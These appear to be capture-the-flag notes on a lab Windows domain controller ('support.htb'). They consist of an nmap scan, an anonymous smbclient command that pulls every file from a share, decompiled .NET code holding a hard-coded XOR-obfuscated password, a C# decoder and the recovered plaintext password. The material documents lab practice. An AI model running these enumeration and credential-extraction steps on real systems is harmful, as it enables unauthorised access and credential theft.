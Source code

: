 # ip machine windows
10.10.11.174

# nmap result
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 12:25 EDT
Nmap scan report for 10.10.11.174
Host is up (0.092s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-09 16:26:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-10-09T16:26:20
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.89 seconds

# url wsman
http://10.10.11.174:5985/wsman

# domain sid
Domain Sid: S-1-5-21-1677581083-3380853377-188903654

# dnspy ldapsearch

# check list file
smbclient -L 10.10.11.174

# extract file smb
smbclient //10.10.11.174/support-tools -N -c 'prompt OFF; recurse ON; lcd  ./smb/;mget *'

#dnspy info :

private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");

function encrypted password :

namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
			}
		}	
}

using System;
using System.Text;
					
public class Program
{      	     
	public static void Main()
	{
		string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    	byte[] key = Encoding.ASCII.GetBytes("armando");
		
		byte[] numArray = Convert.FromBase64String(enc_password);
      	byte[] bytes = numArray;
      for (int index = 0; index < numArray.Length; ++index)
        bytes[index] = (byte) ((int) numArray[index] ^ (int) key[index % key.Length] ^ 223);
      Console.WriteLine(Encoding.Default.GetString(bytes));
	}
}

# function decrypt :



# password : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz